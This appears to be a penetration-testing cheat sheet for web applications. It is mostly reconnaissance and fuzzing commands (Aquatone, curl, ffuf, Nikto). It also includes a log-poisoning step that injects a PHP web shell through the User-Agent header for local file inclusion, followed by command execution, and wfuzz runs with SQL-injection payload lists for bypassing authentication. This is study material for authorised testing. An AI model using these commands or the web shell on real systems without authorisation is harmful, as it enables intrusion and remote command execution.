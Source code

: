 # Hypertext Transfer Protocol

### Source Code Review

_Review source code and Page Contents With Burp Suite/Site Map. Add Target Scope under Target > Scope > Add_

_View Landing Page /_

_Add domain or hostname to Kali /etc/hosts file and review landing page /_

### General Scoping

* _Discover Potential Filename patterns for custom bruteforcing directories and files._
* _Discover usernames or email addresses with exiftool after downloading._
* _Discover HTTP Server Version._
* _Discover JavaScript Version._
* _Search For JavaScript Known Version Vulnerabilities._
* _Discover Web Application Name._
* _Discover Web Application Version._
* _Search For Web Application Known Version Vulnerabilities._
* _check certificate if applicable._
* _Discover Admin Login pages._
* _Test For default credentials._
* _Discover User Logins._
* _Discover User Registrations._

## Screenshot Inspection

### Aquatone

{% code overflow="wrap" %}
```
wget https://github.com/michenriksen/aquatone/releases/download/v1.7.0/aquatone_linux_arm64_1.7.0.zip
```
{% endcode %}

```
cat facebook_aquatone.txt | aquatone -out ./aquatone -screenshot-timeout 1000
```

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption><p>tool for automatic and visual inspection of websites across many hosts and is convenient for quickly gaining an overview of HTTP-based attack surfaces by scanning a list of configurable ports, visiting the website with a headless Chrome browser, and taking a screenshot.</p></figcaption></figure>

### View Certificate Information

_Browse to the `https://$ip/` and view the certificate_

### Server Header Information

```
curl -IL $webserver
```

### Fuzzing Sub-domains

{% code overflow="wrap" %}
```
ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u https://FUZZ.domain.com/
```
{% endcode %}

### Fuzzing VHOSTs

{% code overflow="wrap" %}
```
ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://domain.com/ -H 'Host: FUZZ.domain.com' -fs xxx
```
{% endcode %}

### Fuzzing Directories  Files Parameters

_Be sure to test both http and https_

_Extensions_

{% code overflow="wrap" %}
```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt -u http://domain.com/somedir/indexFUZZ -fc 404
```
{% endcode %}

_Directories_

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u http://$ip/FUZZ/ -fc 404
```
{% endcode %}

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$ip/FUZZ/ -fc 404
```
{% endcode %}

_Files_

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt -u http://$ip/FUZZ -fc 404
```
{% endcode %}

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -u http://$ip/FUZZ -fc 404
```
{% endcode %}

_Parameters_

GET

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://$ip/somefile?FUZZ=key
```
{% endcode %}

POST

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://domain.com/path/to/resource.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx
```
{% endcode %}

_Values_

_values can be for example usernames, names, id's_

{% code overflow="wrap" %}
```
ffuf -w values.txt -u http://domain.com/path/to/resource.php -X POST -d 'someParameter=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx
```
{% endcode %}

_Random_

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://$ip/FUZZ -fc 404
```
{% endcode %}

### Response Headers

_Search headers such as X-Powered-By. This may reveal vulnerable versioning_

```
curl -I http://$ip/
```

### Command Injection

### Local File inclusion

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -u http://$ip/site/index.php?page=FUZZ
```
{% endcode %}

_Linux_

```
curl http://$ip/ -A "<?php system(\$_GET['cmd']);?>"
```

_Windows_

```
curl http://$ip/site/index.php\?page=../../path/to/log\&cmd=ipconfig
```

### Remote File inclusion

### SQL injection

#### **Authentication Bypass**

Manually confirm the results to then filter out unwanted responses by using --hh

```
wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "form" --hc 404 $url
```

```
wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d "form" --hc 404 $url
```

### XXE

### XSS

### Nikto Vulnerability Scanner

```
nikto -h http://$ip
```
